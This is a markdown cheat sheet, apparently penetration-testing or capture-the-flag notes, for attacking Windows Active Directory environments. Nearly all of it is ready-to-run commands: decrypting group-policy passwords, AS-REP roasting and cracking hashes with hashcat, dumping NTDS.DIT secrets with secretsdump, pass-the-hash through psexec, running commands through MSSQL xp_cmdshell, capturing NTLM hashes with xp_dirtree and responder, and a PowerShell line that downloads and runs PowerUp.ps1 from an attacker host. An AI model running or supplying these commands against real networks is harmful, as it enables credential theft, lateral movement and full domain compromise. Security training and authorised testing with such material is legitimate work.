 - Credentials stored under group policies can be decrypted using ``gpp-decrypt``.
```
gpp-decrypt <hash>
``` 
- If we are able to retrieve any creds, try various login methods such as smb, ssh, winrm, wmic etc. this can be done using **crackmapexec**
```
crackmapexec <protocol> -U username -P password -H target
```
- We can also try an impacket tool name **GetNPUsers** to dump TGT from a service without having the password.
```
impacket-GetNPUsers -dc-ip <ip> <domain>/<account-name> -no-pass
```
- It might throw an error saying **Clock skew too great**, install ntpdate, and run ``sudo ntpdate <dc-ip>``
- If we do get a ticket back, we can crack it using hashcat and get the password.
```
hashcat -m 13100 hash.txt rockyou.txt 
```
- Using this credentials to login into various services.

- We have credentials for a service account, we can use **impacket-secretsdump** to grab the NTDS.DIT file secrets.
```
impacket-secretsdump '<username>:<password@<ip>'
```
- Output of this command gives us the NTLM hash. With this hash, we can carry out the Pass-The-Hash attack. We can carry out this PTH attack using PsExec as follow.
```
impacket-psexec <domain>/<username>@<ip> -hashes <NT-hash>:<NT-hash>
```

- If we get access to a smb share with read/write perm, we can psexec into that machine.
```
impacket-psexec <domain>/<username>@<ip>
```
- If we have credentials and ms-sql port is open (port 1433), try using the impacket-mssqlclient.
```
impacket-mssqlclient <username>:'<password>'@<ip> -windows-auth 
```
- We the credentials are correct for the mssql, we can have command injection using xp_cmdshell.
```
enable_xp_cmdshell
xp_cmdshell whoami
```
- If this errors out, there is another way, i.e by running mssql client to connect to back to us by telling it to access a share that doesnt exist. So inorder to capture the NTLM hash we have to run responder on the VPN interface.

In the mssqlclient shell:
```
xp_dirtree "\\<our-ip>\<random-share-name>" 
```
In attacker machine:
```
responder -I tun0 
```
- Grab the NTLMv2 hash and crack it using hashcat
```
hashcat -m 5600 hash.txt rockyou.txt 
```
- Once inside a system, try using PowerUp.ps1 from [github](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and execute it in the Powershell, and run Invoke-AllChecks.
```
powershell IEX(New-Object Net.WebClient).downloadString("http://attackerip:8000/powerup.ps1")
Invoke-AllChecks
```
- Check if it leaks any admin account creds.
